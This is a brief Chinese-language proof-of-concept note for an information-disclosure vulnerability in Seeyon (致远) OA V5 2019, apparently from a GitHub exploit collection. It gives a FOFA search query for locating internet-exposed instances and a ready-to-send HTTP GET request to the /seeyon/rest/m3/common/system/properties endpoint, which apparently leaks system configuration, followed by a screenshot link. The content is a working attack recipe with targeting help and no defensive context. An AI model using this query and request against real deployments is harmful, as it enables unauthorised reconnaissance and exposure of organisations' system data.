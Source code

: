 ## 致远OAV52019系统properties信息泄露漏洞



## fofa

```
app="致远互联-OA"
```



## poc

```
GET /seeyon/rest/m3/common/system/properties HTTP/1.1
Host: your-ip


```

![image-20240523190028981](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231900072.png)